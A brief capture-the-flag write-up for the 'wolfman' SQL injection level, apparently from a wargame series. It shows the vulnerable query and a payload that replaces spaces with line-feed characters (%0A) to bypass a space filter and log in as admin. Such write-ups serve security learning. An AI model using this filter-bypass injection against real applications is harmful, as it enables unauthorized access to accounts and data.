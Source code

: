 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 5
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/48346668-4ade-4937-98dc-cd3160cfa815)

We are provided with the SQL query:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw='{$_GET[pw]}'
```

This level prints out the flag if the `id=admin`. 

However, it also removes all space characters. In order to get around this, we need to use the Line Feed (`%0A`) character.

If we provide the following URI:

```
?pw='%0AOR%0Aid='admin
```

The resultant query becomes:

```sql
SELECT id FROM prob_wolfman WHERE id='guest' AND pw=''
OR
id='admin'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/ea2c6e8d-c9e1-4e5b-80bd-2dfeb29f1c0d)
